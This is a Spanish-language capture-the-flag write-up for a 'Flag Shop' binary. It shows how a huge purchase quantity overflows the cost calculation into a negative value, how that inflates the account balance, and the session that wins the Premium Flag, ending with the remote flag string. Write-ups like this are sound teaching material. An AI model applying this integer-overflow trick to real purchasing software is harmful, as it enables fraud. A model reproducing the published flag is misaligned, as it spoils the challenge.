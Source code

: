 # Pwn / Flag Shop

Encontramos un binario con las siguientes propiedades:

``` bash
checksec --file=flagshop 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFYFortified	Fortifiable	FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   47 Symbols	  No	01		flagshop
```

Lo abrimos y nos muestra un menú, con tres opciones, con 1 vemos nuestro saldo actual, con 2 compramos banderas, nos interesa obtener la 'Premium Flag' pero es demasiado cara:

``` 
************************************
 Welcome to the Flag Shop v1.0
************************************
[1] View account balance
[2] Purchase items
[3] Exit
Please select an option: 1

Your current balance is: $1500

************************************
 Welcome to the Flag Shop v1.0
************************************
[1] View account balance
[2] Purchase items
[3] Exit
Please select an option: 2
Items for sale:
[1] Discounted Flag - $1200 each
[2] Premium Flag - $200000 (only 1 in stock)
```

Puesto que el programa una vez compras una 'Discounted Flag' hace account_balance = account_balance - 1200 * number_of_discounted_flags, si number_of_discounted_flags es un numero negativo entonces el saldo de nuetra cuenta crecerá. Para explicarlo mejor este es el concepto:

Desbordamiento de enteros (integer overflow): En programación, esto sucede cuando un valor que se asigna a una variable excede el rango máximo que puede representar el tipo de dato de esa variable, provocando que el valor se "desborde" y, en algunos casos, comience de nuevo desde el valor más bajo del rango, lo que puede resultar en números negativos. 

Entonces le pasamos un numero positivo muy grande, number_of_discounted_flags sera negativo y aumentaremos nuestro saldo:

``` bash
 echo "flag{toy_flag}" > flag  # El programa ejecuta 'cat flag' si ganamos, asi que creamos una flag de prueba
```

```
************************************
 Welcome to the Flag Shop v1.0
************************************
[1] View account balance
[2] Purchase items
[3] Exit
Please select an option: 2
Items for sale:
[1] Discounted Flag - $1200 each
[2] Premium Flag - $200000 (only 1 in stock)
1
How many Discounted Flags would you like to purchase?
99999999
Total cost: $-259085488
Purchase successful! Your new balance is: $259086988
************************************
 Welcome to the Flag Shop v1.0
************************************
[1] View account balance
[2] Purchase items
[3] Exit
Please select an option: 2
Items for sale:
[1] Discounted Flag - $1200 each
[2] Premium Flag - $200000 (only 1 in stock)
2
The Premium Flag costs $200000. Do you wish to purchase it? Enter 1 for yes.
1
[+] Congratulations!
Here's your flag: flag{toy_flag}
```

Hacemos lo mismo en el remoto y obtenemos la flag:

`flag{YoU_4r3_a_G00d_Bus1ne5Sm$n}`



